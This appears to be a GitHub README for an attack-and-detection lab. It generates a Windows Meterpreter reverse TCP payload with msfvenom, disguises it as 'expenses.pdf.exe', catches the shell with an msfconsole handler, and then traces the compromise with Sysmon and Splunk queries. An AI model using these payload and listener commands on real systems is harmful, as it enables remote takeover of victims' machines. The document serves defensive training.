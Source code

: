# Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview

This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used

- **Kali Linux** (attacker machine)
- **Windows 10** (victim machine)
- **Splunk**
- **Sysmon**
- **Metasploit framework (`msfvenom`, `msfconsole`)**

## Attack Simulation

Payload: `windows/meterpreter/reverse_tcp` \
Tools used: Kali Linux, Metasploit framework (`msfvenom`, `msfconsole`)

### Steps taken

1. **Finding an open port** 

   Find an open port using `nmap -A -Pn <Victim IP address>`

2. **Generating the payload**

   Create a meterpreter reverse tcp payload using msfvenom on the kali linux machine

   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
   -f exe -o expenses.pdf.exe
   ```

3. **Deliver the payload to the victim machine**

   via email, USB, etc.
4. **Establish a Meterpreter session via msfconsole**

   To receive the reverse shell, Metasploit's `exploit/multi/handler` module was used to be a listener and capture a connection from the malicious payload

   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost <attacker IP address>
   set lport <open port used in (2)>
   exploit
   ```

   ![msf exploit](images/Meterpreter_exploit.png)

## Detection

Tools used: Windows 10, Sysmon, Splunk

### Initial Detection: Unusual Network Connection

Looking at event data with EventCode=3 there was an unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`, indicating a Potential compromise.

Looking at more events using the spl query of:

```bash
 index=sysmon EventCode=3 <attacker IP address>
```

An event is found where:

![Image showing suspicious file](images/Splunk_Meterpreter_Process.png)

From the above we can see

```bash
DestinationIp: <attacker IP address>
sourceIp: <victim IP address>
Image: C:\Users\<User>\Downloads\expenses.pdf.exe
```

Indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel

Using the query of:

```bash
index=sysmon EventCode=1 expenses.pdf.exe
```

![shell spawned from expenses](images/Splunk_Meterpreter_Spawn_Shell.png)

An event indicating cmd.exe was created from the parent process of `expenses.pdf.exe`\
From this we can take the process guid to find what commands have been executed by the shell

```bash
index=sysmon process_guid = <process_guid>
| table _time, ParentImage,  Image, CommandLine
```

From the above query we get the resut:
![Image showing what commands executed](images/Splunk_Meterpreter_Commands_Exec_part_1.png) 
![Image part 2](images/Splunk_Meterpreter_Commands_Exec_part_2.png)

Through this image resulting from using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user.
